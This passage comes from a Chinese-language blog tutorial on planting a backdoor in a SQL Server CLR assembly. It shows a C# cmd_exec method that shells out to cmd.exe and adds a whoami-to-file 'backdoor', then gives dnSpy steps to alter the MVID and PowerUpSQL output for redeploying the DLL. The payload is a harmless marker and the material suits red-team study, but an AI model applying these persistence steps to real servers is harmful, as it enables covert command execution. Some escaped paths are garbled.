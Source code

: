 ![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221528334.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
3.编辑你想编辑的代码，在这个例子中，我添加了一个简单的“后门”，每次调用“cmd\_exec”方法时，都会向“C:temp”目录中添加文件。示例代码和屏幕截图如下。

    public static void cmd_exec(SqlString execCommand){
        Process expr_05 = new Process();
        expr_05.StartInfo.FileName = "C:\Windows\System32\cmd.exe";
        expr_05.StartInfo.Arguments = string.Format(" /C {0}", execCommand.Value);
        expr_05.StartInfo.UseShellExecute = true;
        expr_05.Start();
        expr_05.WaitForExit();
        expr_05.Close();
        Process expr_54 = new Process();
        expr_54.StartInfo.FileName = "C:\Windows\System32\cmd.exe";
        expr_54.StartInfo.Arguments = string.Format(" /C 'whoami > c:\temp\clr_backdoor.txt", execCommand.Value);
        expr_54.StartInfo.UseShellExecute = true;
        expr_54.Start();
        expr_54.WaitForExit();
        expr_54.Close();
    }
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221544651.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
4.通过单击编译按钮保存修补的代码。然后从顶部菜单选择File、Save Module….然后点击确定-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221554570.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
根据这篇[Microsoft](https://docs.microsoft.com/en-us/dotnet/api/system.reflection.module.moduleversionid?redirectedfrom=MSDN&view=netcore-3.1#System_Reflection_Module_ModuleVersionId)的文章，在每次编译CLR时，都会生成一个唯一的GUID并将其嵌入到文件头中，以便用来区分同一文件的两个版本。这被称为MVID（模块版本ID）。要覆盖已经导入到SQLServer的现有CLR，我们必须手动修改MVID。以下是一个概述。

1.在dnSpy中打开“cmd\_exec”,如果它还没有被打开，向下选择PE部分并选择“#GUID”存储流。然后右键单击它，然后选择“Show Data in Hex Editor”。

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221651826.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
2.接下来，我们需要用任意值修改所选字节之一

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221706663.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
3.从顶部菜单中选择文件，然后选择“Save Module…”

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012221716929.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
PowerShell自动化

你可以使用我之前提供的原始PowerShell命令，也可以使用下面的PowerUPSQL命令从新修改的“cmd\_exec.dll”文件获取十六进制字节，并生成ALTER语句。

    PS C:temp> Create-SQLFileCLRDll -Verbose -SourceDllPath .cmd_exec.dll
    VERBOSE: Target C#  File: NA
    VERBOSE: Target DLL File: .cmd_exec.dll
    VERBOSE: Grabbing bytes from the dll
    VERBOSE: Writing SQL to: C:UsersSSUTHE~1AppDataLocalTempCLRFile.txt
    C# File: NA
    CLR DLL: .cmd_exec.dll
    SQL Cmd: C:UsersSSUTHE~1AppDataLocalTempCLRFile.txt
    
